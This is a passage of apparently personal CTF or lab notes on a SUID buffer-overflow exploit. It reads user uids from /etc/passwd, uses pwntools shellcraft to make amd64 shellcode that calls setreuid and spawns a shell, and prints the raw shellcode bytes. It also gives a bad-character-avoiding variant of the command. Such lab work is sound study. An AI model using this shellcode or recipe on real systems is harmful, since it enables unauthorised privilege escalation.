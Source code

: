 
As what we want to exploit is the executables suid permission we need to set the uid in the shellcode we run. 

[[../../../Tools n Info/27 - asm, Buffer Overflow, debug/Buffer Overflow/11 - SUID binaries|11 - SUID binaries]]

For this we need the users uid from /etc/passwd:
```sh
...
reynard:x:1000:1000:Reynard,,,:/home/reynard:/bin/bash
anansi:x:1001:1001:Anansi,,,:/home/anansi:/bin/bash
puck:x:1002:1002:Puck,,,:/home/puck:/bin/bash
```

We will use pwntools shellcraft functionality to get the code we need:
```sh
┌──(kali㉿kali)-[~/bof]
└─$ pwn shellcraft --format d amd64.linux.setreuid 1001 + amd64.linux.sh
\x31\xff\x66\xbf\xe9\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xf6\x56\x6a\x08\x5e\x48\x01\xe6\x56\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05
```

This gives us the shellcode to use later.


`pwn shellcraft --format d --avoid "\x00\x46" amd64.linux.setreuid 1001 + amd64.linux.sh`